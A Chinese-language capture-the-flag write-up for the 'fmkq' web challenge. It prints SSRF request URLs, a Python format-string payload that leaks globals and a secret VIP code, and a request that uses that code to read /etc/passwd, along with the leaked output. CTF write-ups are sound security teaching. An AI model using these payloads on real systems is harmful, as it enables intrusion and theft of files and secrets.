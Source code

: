 ` flag{409ed945-5b77-4ec3-97e1-b395778842ba} `



### fmkq


begin 那里搞个 %s% 就行了。

8080 出东西了

```
Welcome to our FMKQ api, you could use the help information below
To read file:
    /read/file=example&vipcode=example
    if you are not vip,let vipcode=0,and you can only read /tmp/{file}
Other functions only for the vip!!!
```
```
http://121.37.179.47:1101/?begin=%s%&head=\&url=http://127.0.0.1:8080/read/file=/tmp/flag%26vipcode=1
```

flag在 /未知目录/flag。至少能扫目录，或者直接 getshell

![image7052](https://i.loli.net/2020/03/08/qlPynLj3IOkZu9A.png)


在fuzz过程中有一下报错
```
Absolute URI not allowed if server is not a proxy.
Malformed Request-Line: bad protocol
Malformed Request-URI
```
去网上查了下可能是cherrypy

当输入{file}时,其对应的输出为:error,说明可能有ssti或者格式化字符串漏洞

利用格式化字符串读取vipcode,从而任意文件读取

```
{file.__class__.__init__.__globals__}
['lib', 'media', 'opt', 'var', 'usr', 'mnt', 'bin', 'root', 'home', 'tmp', 'boot', 'sys', 'run', 'sbin', 'srv', 'lib64', 'etc', 'dev', 'proc', 'app', '.dockerenv', 'fl4g_1s_h3re_u_wi11_rua']

{'truevipcode': '3Ad8fya45bYeUOFDkJuXpjV1tGHLxzonrCWlER2mPKS9i67w'}
'__file__': '/app/base/readfile.py'


```


```
/?head=\&url=http://127.0.0.1:8080/read/file=/etc/passwd%26vipcode=3Ad8fya45bYeUOFDkJuXpjV1tGHLxzonrCWlER2mPKS9i67w&begin=%s%
```

vip.py

```python

import random
import string


vipcode = ''


class vip:
    def __init__(self):
        global vipcode
        if vipcode == '':
            vipcode = ''.join(random.sample(string.ascii_letters+string.digits, 48))
```